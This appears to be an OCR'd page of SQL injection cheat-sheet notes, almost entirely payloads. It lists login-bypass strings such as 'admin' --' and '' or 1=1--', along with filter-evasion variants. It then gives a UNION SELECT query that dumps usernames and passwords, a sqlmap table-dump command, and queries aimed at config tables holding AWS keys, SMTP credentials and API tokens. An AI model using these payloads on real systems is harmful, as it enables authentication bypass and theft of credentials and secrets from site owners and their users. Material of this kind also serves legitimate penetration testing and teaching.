 &nbsp;	admin' --

&nbsp;	admin' # 

&nbsp;	admin'/\\\* 

&nbsp;	admin'-- 

&nbsp;	admin' or '1'='1

&nbsp;	admin' or true--

&nbsp;	admin') or ('1'='1-- -

 	admin") or ("1"="1"-- -

&nbsp;	' or true-- 

&nbsp;	' or 1=1-- 

&nbsp;	' or 1=1#

&nbsp;	' or 1=1/\\\*

&nbsp;	' or 1=1 LIMIT 1-- -

&nbsp;	' or 'a'='a

&nbsp;	' OR 1=1#

&nbsp;	' OR ''='



Payloads that bypass filtered characters

&nbsp;	OR 1=1

&nbsp;	OR TRUE

&nbsp;	OR 1=1-- -

&nbsp;	OR 1=1# 

&nbsp;	OR 1=1/\\\*

&nbsp;	OR 1 LIKE 1

&nbsp;	OR 1 BETWEEN 0 AND 2

&nbsp;	OR EXISTS(SELECT \\\* FROM users)



**Exfiltration \& pivoting** 

1. **Exfiltration techniques
   Data dumps (UNION SELECT)**
This is just a classic exfiltration	
   	?id=1 UNION SELECT id, username, password FROM users-- -
   if you know column count and types, you can dump entire tables.
   	sqlmap -u URL --dump --batch
   
2. **exfil sensitive configs**
   target values: AWS Keys, SMTP creds, API tokens, S3 buckets, internal IP/Domain
   	SELECT \* FROM config;
   	SELECT \* FROM settings;
   	SELECT \* FROM env;
   	SELECT value FROM settings WHERE key LIKE '%secret%';
   